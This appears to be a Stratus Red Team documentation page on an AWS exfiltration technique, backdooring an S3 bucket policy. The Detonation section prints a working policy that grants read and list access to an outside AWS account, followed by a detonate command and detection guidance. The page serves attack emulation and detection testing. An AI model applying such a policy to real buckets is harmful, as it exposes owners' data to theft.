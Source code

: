```yaml
---
title: Backdoor an S3 Bucket via its Bucket Policy
---
```


# Backdoor an S3 Bucket via its Bucket Policy


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates data from an S3 bucket by backdooring its Bucket Policy to allow access from an external, fictitious AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an S3 bucket.

<span style="font-variant: small-caps;">Detonation</span>: 

- Backdoor the S3 Bucket Policy by setting the following Bucket Policy:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": [
        "s3:GetObject",
        "s3:GetBucketLocation",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::%s/*",
        "arn:aws:s3:::%s"
      ]
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.s3-backdoor-bucket-policy
```
## Detection


- Using CloudTrail's <code>PutBucketPolicy</code> event.

- Through GuardDuty's [Policy:S3/BucketAnonymousAccessGranted](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html#policy-s3-bucketanonymousaccessgranted) finding, 
if the S3 bucket was made public (and not only shared with an attacker-controlled AWS account).

- Through [IAM Access Analyzer](https://docs.aws.amazon.com/AmazonS3/latest/userguide/access-analyzer.html),
which generates a finding when an S3 bucket is made public or accessible from another account.


